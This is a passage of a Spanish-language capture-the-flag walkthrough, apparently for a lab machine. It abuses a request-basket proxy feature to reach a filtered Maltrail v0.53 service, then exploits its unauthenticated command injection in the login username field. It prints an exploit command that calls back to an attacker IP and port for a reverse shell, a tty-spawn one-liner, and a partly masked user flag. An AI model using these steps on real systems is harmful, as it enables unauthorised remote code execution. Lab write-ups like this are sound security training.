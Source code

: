 
Proxy Response - Esto permite que la cesta se comporte como un proxy completo: respuestas del servicio subyacente configurado en forward_url.
configurado en forward_url se devuelven a los clientes de las solicitudes originales. La configuración de
configuración de las respuestas de la cesta se ignora en este caso.

Expandir ruta de reenvío - Con esta opción, la ruta de la URL de reenvío se expandirá cuando la petición HTTP original contiene una ruta compuesta.


Ahora basta con acceder a: http://10.10.11.224:55555/web/test y accederemos con éxito al servicio del puerto 80 que estaba filtrado:

![image](https://github.com/user-attachments/assets/d0001f90-87eb-41e5-9282-aebc90977b32)


Al acceder al servicio, vemos que se trata de un servicio mailtrail v0.53 el cual parece que es vulnerable a Unauthenticated OS Command Injection (RCE):


#### Mailtrail -Unauthenticated OS Command Injection (RCE)

Maltrail versión 0.53 contiene una vulnerabilidad de inyección de comandos del sistema operativo que no requiere autenticación. Esta vulnerabilidad se encuentra en el parámetro `username` del endpoint de login, permitiendo ejecutar comandos arbitrarios en el servidor.

El vector de ataque consiste en:

1. Enviar una petición POST al endpoint `/login`
2. Inyectar comandos en el parámetro `username`
3. Los comandos se ejecutan con los privilegios del usuario que ejecuta el servicio Maltrail

https://github.com/spookier/Maltrail-v0.53-Exploit

```
python3 exploit.py 10.10.14.8 1234 http://10.10.11.224:55555/test
```

![image](https://github.com/user-attachments/assets/a435371e-cbf1-49d9-ba56-70bd20b230e8)


![image](https://github.com/user-attachments/assets/636272c0-cde3-494e-8824-d4da772b6906)


Hacemos un spawn de la tty:

```
SHELL=/bin/bash script -q /dev/null
```


Capturamos la flag del directorio /home/puma:

```
cat user.txt
*************c6911648d77c65eeec
puma@sau:~$ 
```

